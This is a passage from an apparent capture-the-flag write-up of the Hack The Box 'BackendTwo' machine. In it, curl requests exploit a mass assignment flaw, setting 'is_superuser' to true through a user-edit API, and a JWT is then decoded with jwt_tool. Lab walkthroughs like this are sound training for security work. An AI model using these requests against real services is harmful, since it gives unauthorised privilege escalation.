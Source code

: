 ```console
root@kali:~/htb/Machines/BackendTwo# curl -X PUT -s  -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/user/12/edit -H "Content-Type: application/json" -d '{"profile":"a"}'
{"result":"true"}

root@kali:~/htb/Machines/BackendTwo# curl -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/user/12
{"guid":"9e901212-05af-42e4-aa9c-5d8ceb43dec8","email":"a@backendtwo.htb","profile":"a","last_update":null,"time_created":1690875388541,"is_superuser":false,"id":12}
```

I have changed the value of the `profile` field.
Now I try to see if it is possible to change other fields at the same time.
The `is_superuser` field is particularly interesting.

```console
root@kali:~/htb/Machines/BackendTwo# curl -X PUT -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/user/12/edit -H "Content-Type: application/json" -d '{"profile":"a","is_superuser":true}'
{"result":"true"}

root@kali:~/htb/Machines/BackendTwo# curl -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/user/12
{"guid":"9e901212-05af-42e4-aa9c-5d8ceb43dec8","email":"a@backendtwo.htb","profile":"a","last_update":null,"time_created":1690875388541,"is_superuser":true,"id":12}
```

I was able to change `is_superuser` to `true`.
This endpoint is [Mass Assignment](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html) vulnerable.
Now user whose ID is 12 can become a superuser.

```console
root@kali:~/htb/Machines/BackendTwo# curl -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/admin/
{"results":false}

root@kali:~/htb/Machines/BackendTwo# curl -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/admin/get_user_flag
{"detail":"Not Authorized"}
```

However, the `/api/v1/admin/` endpoint returns still `Not Authorized`.

Here, I will decode JWT with [The JSON Web Token Toolkit v2](https://github.com/ticarpi/jwt_tool).
It can also be decoded with Auth0's [jwt.io](https://jwt.io/).

```console
root@kali:~/htb/Machines/BackendTwo# python3 ~/tools/jwt_tool/jwt_tool.py $TOKEN
(snip)
=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] type = "access_token"
[+] exp = 1691567183    ==> TIMESTAMP = 2023-08-09 16:46:23 (UTC)
[+] iat = 1690875983    ==> TIMESTAMP = 2023-08-01 16:46:23 (UTC)
[+] sub = "12"
[+] is_superuser = False
[+] guid = "9e901212-05af-42e4-aa9c-5d8ceb43dec8"
(snip)
```
